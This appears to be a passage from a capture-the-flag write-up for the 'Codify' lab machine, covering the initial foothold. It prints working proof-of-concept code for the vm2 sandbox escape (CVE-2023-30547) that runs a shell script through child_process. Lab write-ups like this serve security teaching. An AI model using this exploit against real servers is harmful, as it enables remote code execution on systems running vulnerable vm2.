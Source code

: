 

## Initial Foothold

I started off by browsing to codify.htb with Burp Suite enabled to intercept traffic. Exploring the web application revealed 3 main pages:

- About Us - This page explained that Codify is a Node.js sandbox environment using the vm2 library to execute untrusted code safely.
- Editor - A simple page with a textarea to enter Node.js code and execute it.
- Limitations - Notes restrictions like blocked access to certain modules like child_process and fs.

The About Us page indicated that while Codify sandboxes code execution, it's not completely bulletproof.

After some research into vm2, I found a recently disclosed Sandbox Escape vulnerability in [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m) that could be leveraged to break out of the sandbox.

I tested a PoC exploit code in the textarea that abuses Proxy and Error objects to access the main process and execute arbitrary commands.

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'bash shell.sh'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```

This exploit allowed me to execute commands on the underlying system. 
![[Pasted image 20240123031510.png]]


## Privilege Escalation to Joshua
